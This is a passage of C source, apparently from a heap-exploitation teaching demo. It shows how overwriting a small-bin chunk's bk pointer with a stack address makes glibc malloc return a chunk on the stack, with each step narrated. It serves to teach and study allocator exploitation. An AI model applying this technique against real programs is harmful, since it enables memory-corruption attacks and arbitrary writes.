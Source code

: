 ```c
  fprintf(stderr, "This means that the chunk %p will be inserted in front of the SmallBin\n", victim);



  void *p2 = malloc(1200);

  fprintf(stderr, "The chunk that can't be handled by the unsorted bin, nor the SmallBin has been allocated to %p\n", p2);



  fprintf(stderr, "The victim chunk has been sorted and its fwd and bk pointers updated\n");

  fprintf(stderr, "victim->fwd: %p\n", (void *)victim[0]);

  fprintf(stderr, "victim->bk: %p\n\n", (void *)victim[1]);



  //------------VULNERABILITY-----------



  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim->bk pointer\n");



  victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack



  //------------------------------------



  fprintf(stderr, "Now allocating a chunk with size equal to the first one freed\n");

  fprintf(stderr, "This should return the overwritten victim chunk and set the bin->bk to the injected victim->bk pointer\n");



  void *p3 = malloc(100);





  fprintf(stderr, "This last malloc should trick the glibc malloc to return a chunk at the position injected in bin->bk\n");

  char *p4 = malloc(100);

  fprintf(stderr, "p4 = malloc(100)\n");



  fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",

         stack_buffer_2[2]);


```